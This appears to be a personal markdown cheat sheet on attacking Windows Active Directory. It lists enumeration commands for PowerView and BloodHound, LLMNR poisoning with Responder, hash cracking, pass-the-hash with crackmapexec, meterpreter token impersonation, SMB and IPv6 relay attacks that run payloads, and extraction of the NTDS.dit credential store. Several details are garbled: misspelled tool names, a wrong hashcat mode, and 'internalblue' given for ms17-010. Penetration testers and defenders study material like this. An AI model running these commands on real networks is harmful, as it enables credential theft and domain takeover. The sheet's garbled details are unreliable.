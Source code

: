 
# Windows Server 2019
- Enable AD
- Enable AD DC
- Run/Group Policy Management App
  - setspn -a $DC/$UDN:6011 $D\$U
  - setspn -T $D.local -Q */*
- Grab the %SytemRoot\NTDS%Ntds.dit file
  - Workstations configured to use AD DC as DNS via IP 
  - add ad user as local admin
- Features
  - 
# Post Enum
- powershell -ep bypass
- . ./PowerView.ps1 # https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
  - Get-NetDomain
  - Get-NetDomainController
  - Get-NetComputer -FullData
  - Get-DomainPolicy
    - (Get-DomainPolicy)."system access"
  - Get-NetUser | select cn
  - Get-NetGroup
  - Get-NetGroupMember -Groupname "Domains Admin"
  - Get-UserProperty -Properties pwdlastset logoncount #no logons might be honeypot
  - Invoke-ShareFinder
  - Get_NetGPO
- Spretre Ops Bloudhound
  - opt install bloodhoud
    - neo4j console (u/p:neo4j)
    - bloudhound
    - . .\SharpHound.ps1
    - Invoke-bloodhound -CollectionMethod All -ZipFileName output.zip

# Notes
  - AD users kerberos
  - linux and mac via RADIUS and LDAP

# Internal
- be loud to help blue team sync up
- Active Directory Attacks
  - Netbios amd LLMNR/NBT-NS Poisoning
    - use social engineering or phishing to get bad dns requests
    - python Responder.py -I eth0 -rdwv
    - hashcat -m 5680 $hashes.txt $passwords.txt -O--force
    - NTLMv2 hash
  - Pass the hash
    - apt install crackmapexec
    - crackmapexec $subnet -u $user -d $domain -p $password
    - crackmapexec $subnet -u $user -d $domain -H $hash --local
    - crackmapexec $subnet -u $user -d $domain -p $password --sam
  - Token Impersonation
    - https://www.offensive-security.com/metasploit-unleashed/fun-incognito/
    - meterpreter> load incognito
    - meterpreter> list_tokens -u
    - meterpreter> impersonate_token $domain\\$user
  - SMB Relay
    - nmap --script=smb2-security-mode.nse -p445 $sn # look for enabled or not targets.txt req.
    - python Responder.py -I eth0 -rdwv
    - python ntlmrelayx.py itf $targets.txt -i
    - python ntlmrelayx.py itf $targets.txt -e test.exe
    - msfconsole
      - search psexec
    - psexec.py
    - smbexec.py
    - wmiexec.py
  - kerboroasting
  - IPV6 attacks
    - mitm6 
      - dns spoofing
      - dc
      - smb 
      - lpap
        - ntlmrelayx.py -6 -t ldaps://$dc -wh fakepad.$d.local -l lootme
        - get machines to reboot, or wait for a reboot
      - ldap relaying via ntlm
  - ms17-010 aka internalblue.
  